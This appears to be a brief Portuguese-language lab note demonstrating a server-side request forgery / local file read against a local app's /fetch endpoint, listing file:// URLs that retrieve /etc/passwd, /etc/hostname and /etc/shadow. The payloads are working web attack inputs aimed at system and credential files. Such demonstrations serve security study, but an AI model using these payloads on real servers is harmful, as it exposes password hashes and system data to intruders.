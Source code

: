 
Esse payload faz com que o arquivo retorne o conteudo da pasta passwd 

http://0.0.0.0:5000/fetch?url=file:///etc/passwd

http://0.0.0.0:5000/fetch?url=file:///etc/hostname

http://0.0.0.0:5000/fetch?url=file:///etc/passwd

http://0.0.0.0:5000/fetch?url=file:///etc/shadow


